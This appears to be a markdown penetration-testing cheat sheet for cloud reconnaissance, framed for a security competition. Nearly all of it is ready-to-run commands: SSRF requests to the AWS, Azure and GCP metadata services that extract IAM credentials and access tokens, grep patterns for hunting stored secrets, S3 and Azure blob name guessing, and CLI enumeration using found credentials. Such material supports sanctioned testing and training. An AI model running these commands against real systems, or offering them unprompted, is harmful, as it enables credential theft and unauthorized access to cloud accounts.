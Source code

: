 # Cloud Environment Reconnaissance
---

## Quick Cloud Detection

### Identify Cloud Presence

**During web app testing, look for:**
```bash
# AWS indicators
curl -s TARGET | grep -i "amazonaws.com\|s3.amazonaws\|cloudfront"

# Azure indicators  
curl -s TARGET | grep -i "azure\|windows.net\|blob.core"

# GCP indicators
curl -s TARGET | grep -i "googleapis.com\|storage.googleapis"

# Check for cloud metadata endpoints (SSRF testing)
# These should NEVER be accessible from external networks
curl http://TARGET/proxy?url=http://169.254.169.254/latest/meta-data/
```

**In source code / config files:**
```bash
# Look for AWS credentials
grep -r "AKIA" .  # AWS Access Key ID pattern
grep -r "aws_access_key_id" .
grep -r "AWS_SECRET_ACCESS_KEY" .

# Look for Azure credentials
grep -r "DefaultEndpointsProtocol=https" .
grep -r "AccountKey=" .

# Look for GCP credentials  
grep -r "type.*service_account" .
grep -r "private_key_id" .
```

---

## AWS RECONNAISSANCE

### AWS Metadata Service (IMDSv1 - If accessible via SSRF)

**CRITICAL:** This should NEVER be accessible externally. If you can reach it, you have a critical SSRF vulnerability.

```bash
# Basic metadata access (from SSRF)
curl http://169.254.169.254/latest/meta-data/

# Get instance identity
curl http://169.254.169.254/latest/meta-data/instance-id
curl http://169.254.169.254/latest/meta-data/hostname

# Get IAM role name
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Get IAM credentials (CRITICAL - direct to exploitation)
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME

# Output contains:
# - AccessKeyId
# - SecretAccessKey  
# - Token
# Use these with AWS CLI!
```

### S3 Bucket Enumeration

**Common naming patterns to test:**
```bash
# Company-based patterns
aws s3 ls s3://company-name --no-sign-request
aws s3 ls s3://companyname-backups --no-sign-request
aws s3 ls s3://companyname-logs --no-sign-request
aws s3 ls s3://companyname-data --no-sign-request
aws s3 ls s3://companyname-dev --no-sign-request
aws s3 ls s3://companyname-prod --no-sign-request

# Environment-based patterns
aws s3 ls s3://dev-companyname --no-sign-request
aws s3 ls s3://staging-companyname --no-sign-request
aws s3 ls s3://prod-companyname --no-sign-request

# Generic patterns
aws s3 ls s3://backup --no-sign-request
aws s3 ls s3://data --no-sign-request
aws s3 ls s3://files --no-sign-request
aws s3 ls s3://uploads --no-sign-request
```

### AWS CLI Enumeration (If you have creds)

```bash
# Configure AWS CLI with found credentials
aws configure set aws_access_key_id AKIAIOSFODNN7EXAMPLE
aws configure set aws_secret_access_key wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
aws configure set region us-east-1


# Verify credentials work
aws sts get-caller-identity

# List accessible resources
aws s3 ls
aws ec2 describe-instances
aws iam list-users
aws iam list-roles
aws lambda list-functions
aws rds describe-db-instances

# Check your permissions
aws iam get-user
aws iam list-attached-user-policies
```

---

## AZURE RECONNAISSANCE

### Azure Metadata Service (If accessible via SSRF)

```bash
# Access token for managed identity
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"

# Instance metadata
curl -H "Metadata:true" "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
```

### Azure Blob Storage Enumeration

**Common naming patterns:**
```bash
# Storage account patterns: {name}.blob.core.windows.net
curl https://companyname.blob.core.windows.net/?comp=list
curl https://companynamedata.blob.core.windows.net/?comp=list

# Check for public containers
curl https://STORAGE_ACCOUNT.blob.core.windows.net/CONTAINER_NAME?restype=container&comp=list
```

### Azure CLI Enumeration (If have creds)

```bash
# Login with service principal
az login --service-principal \
  --username APP_ID \
  --password PASSWORD \
  --tenant TENANT_ID

# Verify authentication
az account show

# List resources
az resource list
az vm list
az storage account list
```

---

## GCP RECONNAISSANCE

### GCP Metadata Service (If accessible via SSRF)

```bash
# Requires special header
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/

# Get project ID
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/project/project-id

# Get access token
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token
```

---

## COMPETITION WORKFLOW 

### Quick Cloud Check 

```bash
# 1. During web recon, grep for cloud indicators (2 min)
curl -s http://TARGET | grep -i "amazonaws\|azure\|googleapis"

# 2. Check for SSRF to metadata
curl "http://TARGET/proxy?url=http://169.254.169.254/latest/meta-data/"

# 3. Try common S3 bucket names
aws s3 ls s3://companyname --no-sign-request
aws s3 ls s3://companyname-backups --no-sign-request
```

### If Cloud Present

```bash
# If SSRF found → Exploit metadata service 
# - Extract IAM credentials
# - Use credentials to enumerate AWS
# - Document as CRITICAL finding

# If S3 buckets found → Test access 
# - List contents
# - Check for sensitive data
# - Document as HIGH/CRITICAL

# If credentials found → Enumerate cloud
# - Configure AWS/Azure/GCP CLI
# - List accessible resources
# - Document findings
```
